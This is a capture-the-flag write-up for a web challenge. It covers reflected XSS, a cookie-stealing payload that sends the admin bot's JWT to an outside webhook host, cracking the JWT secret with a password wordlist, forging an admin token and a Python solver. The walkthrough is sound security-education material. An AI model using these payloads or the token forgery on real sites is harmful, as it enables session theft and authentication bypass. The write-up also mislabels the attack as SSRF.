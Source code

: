 # Web Exploitation

## Learn HTTP

{% hint style="info" %}
Reflected XSS, SSRF, JWT Token
{% endhint %}

I made a simple web application to teach you guys how HTTP responses work, I hope you enjoy :)

{% embed url="https://learn-http.ctf.pearlctf.in" %}

Probset gave the source code of the app and the link to the their web app.



### Enumerate

:red\_circle: On image 1, the web app have the intention to give the client what response of web they want. It have three main points on the index:

1. HTTP response
2. link to the http response
3. admin checker

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>image 1</p></figcaption></figure>



#### Check Response

Try if it allow any HTML or XSS injection with the following payload and it will provide you with the alert mean that it success and can inject reflected XSS into the response.

```url
https://learn-http.ctf.pearlctf.in/resp?body=<script>alert(1);</script>
```



#### Check Source Code

Look up on the source code (image 2), there are also three main parts, which is **bot.js, main.go,** and **main.js**&#x20;



<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>image 2</p></figcaption></figure>



:red\_circle: in **main.js**, I found it has 3 route: **/**, **/check**, and **/flag.** Some focus point on this snippet source code is:

* **genToken**: remember **jwt** (JSON Web Token) pattern.
* in route **/check**, it spawn **bot.js** and give **url** and **token** data to it. Should check the **bot.js** file
* in route **/flag**, it will check whether the **id** is **2** or not, indicate that we must edit the token.



<pre class="language-javascript" data-title="main.js" data-full-width="false"><code class="lang-javascript">...
const genToken = () => {
    var token = jwt.sign({ id: 1 }, process.env.SECRET);
    return token
}

app.post("/check", (req, res) => {
    try {
        let req_body = req.body.body
        
        if (req_body == undefined) {
            return res.status(200).send("Body is not provided")
        }

        let to_req = `http://localhost:5001/resp?body=${encodeURIComponent(req_body)}`

        childProcess.spawn('node', ['./bot.js', JSON.stringify({
            url: to_req,
            token: genToken()
        })]);

        return res.status(200).send("Admin will check!")
    } catch (e) {
        console.log(e)
        return res.status(500).send("Internal Server Error")
    }
})

<strong>app.get("/flag", (req, res) => {
</strong>    let token = req.cookies.token
    try {
        var decoded = jwt.verify(token, process.env.SECRET)
        if (decoded.id != 2) {
            return res.status(200).send("You are not verified")
        }

        return res.status(200).send(process.env.FLAG)
    } catch {
        return res.status(200).send("You are not verified")
    }
})

app.listen("5000", () => {
    console.log("Server started")
})
...
</code></pre>



:red\_circle:in **bot.js**, the page will set some cookie with name **token** and it **JWT** token values. It also have the timeout around 3 hours before the token expired.&#x20;

{% code title="bot.js" %}
```javascript
...
let page = await browser.newPage();
		await page.setCookie({
			name: 'token',
			value: token,
			domain: 'localhost',
			httpOnly: false,
			secure: true,
			sameSite: 'None'
		});
		await page.goto(url,{ waitUntil: 'domcontentloaded', timeout: 3000 });
		await new Promise(r=>setTimeout(r,10000));
...
```
{% endcode %}



### Conclusion

:yellow\_circle: From here, I concluded that the concept is to retrieve the token from local so we can use the token to gain access to the **/flag.** This attack called **SSRF** ( Server-Side Request Forgery) where web security vulnerability allow attacker to cause server-side application to make requests to the unintended location ([Portswigger](https://portswigger.net/web-security/ssrf)).



### Exploit

:green\_apple: Search some reflected XSS payload from:

{% embed url="https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md" %}

The payload and additional webhook to catch the cookies (I remove the alert on the full payload).

```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="webhook.site//?"+document.cookie;
</script>

```



since on the payload must include the URL encoding, here the full payload to catch the token:

```url
https://learn-http.ctf.pearlctf.in/resp?body=HTTP%2F1.1%20200%20OK%0D%0A%0D%0A<script>var%20i=new%20Image;i.src="https://webhook.site/da7f2c82-e06f-47ba-b2f8-9b22c747da15?"%2bdocument.cookie;</script>
```



After setting up webhook and sent the payload, I got the feedback on webhook indicate that it succeed captured the cookies named **token** and it values.

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption><p>image 3</p></figcaption></figure>



:yellow\_circle: Analyze the last endpoint to get the flag. The token contain JWT and in line 5 the token will verify the JWT authentication between the token and the **SECRET** they provided for JWT. In line 6, it has a checker that the **id** must be valued with **2**.

* [ ] need to know the **SECRET** from the JWT token.
* [ ] need to change the **id** value to **2** without broke the auth token.

{% code title="main.js" lineNumbers="true" %}
```javascript
...
app.get("/flag", (req, res) => {
    let token = req.cookies.token
    try {
        var decoded = jwt.verify(token, process.env.SECRET)
        if (decoded.id != 2) {
            return res.status(200).send("You are not verified")
        }

        return res.status(200).send(process.env.FLAG)
    } catch {
        return res.status(200).send("You are not verified")
    }
})
...
```
{% endcode %}



:green\_apple: Here JWT Token Concept where it made of **Header**, **Payload**, and **Secret** so it will become **Signature** and be a **JWT** token. To decode, need the **Secret** to keep authentication of the token.

<figure><img src="../../.gitbook/assets/image (77).png" alt="JWT Token Concept"><figcaption><p><a href="https://i.stack.imgur.com/b2dzI.png">image 4</a></p></figcaption></figure>



:detective: To deal with it, I use [JWT token cracker](https://github.com/lmammino/jwt-cracker?tab=readme-ov-file) to obtain the S**ecret** and use [this website](https://jwt.io/#debugger-io) (jwt.io) to change the value of JWT token's **id** and try to "keep" the token auth is real (spoof).



{% code title="tool, wordlist and payload" %}
```bash
jwt-cracker -t thetoken -d /usr/share/seclists/Passwords/darkweb2017-top10000.txt 

```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption><p>image 5</p></figcaption></figure>



use the **Secret** on the **Signature** part and change the **id** to **2** so it can pass the checker.

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption><p>image 6</p></figcaption></figure>

### Code Solver

```python

import requests

url = "https://learn-http.ctf.pearlctf.in/flag"

params={
    "host":"http://localhost:5001/"
}

cookies={
    "token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNzA5OTg0NDU5fQ.TgOMUwqpP3P34lFfu9eAiNPZFrNvkF7gAawQacOzPyc"
}

res = requests.get(url,cookies=cookies,params=params)

print(res.text)

```

{% hint style="success" %}
:triangular\_flag\_on\_post: **pearl{c4nt\_s3nd\_th3\_resP0n53\_w1th0ut\_Sani7iz1ng}**
{% endhint %}



